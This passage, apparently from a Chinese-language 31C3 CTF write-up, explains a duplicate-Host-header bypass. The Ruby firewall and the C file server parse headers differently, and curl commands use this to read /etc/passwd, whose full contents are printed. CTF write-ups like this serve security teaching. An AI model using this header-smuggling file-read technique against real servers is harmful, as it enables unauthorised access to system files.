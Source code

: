 但是直接这样发送请求会被fw.rb forbidden。

```
:~# curl http://works.90.31c3ctf.aachen.ccc.de/passwd -H 'Host: /etc/'
Forbidden 
复制代码
```

再看一下fw.rb的逻辑会获取最后一次出现的Host

```
#!ruby
def parse_headers(line_reader)
        line_reader.collect do |line|
            [$1, $2] if line=~ /\A([^:]*): *(.*)\z/
        end.compact.inject({}) { |h, x| h[x[0]]= x[1]; h }
 end
复制代码
```

serve_file会获取第一次出现的Host

```
#!c
for (;;) {
        if (!read_line(buffer, &buf_size)) {
            goto invalid;
        }
        if (*buffer == '\r') {
            goto invalid;
        }
        if (strncmp(buffer, "Host: ", sizeof("Host: ")-1) == 0) {
            break;
        }
        char *eol= strchr(buffer, '\r');
        buf_size-= eol-buffer-2;
        buffer= eol+2;
} 
复制代码
```

这样我们就可以构造两个Host来绕过fw.rb了。

```
:~# curl http://works.90.31c3ctf.aachen.ccc.de/passwd -H 'Host: /etc/' -H 'Host:
works.90.31c3ctf.aachen.ccc.de'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:100:103::/home/syslog:/bin/false
messagebus:x:101:105::/var/run/dbus:/bin/false
uuidd:x:102:107::/run/uuidd:/bin/false
landscape:x:103:110::/var/lib/landscape:/bin/false
```
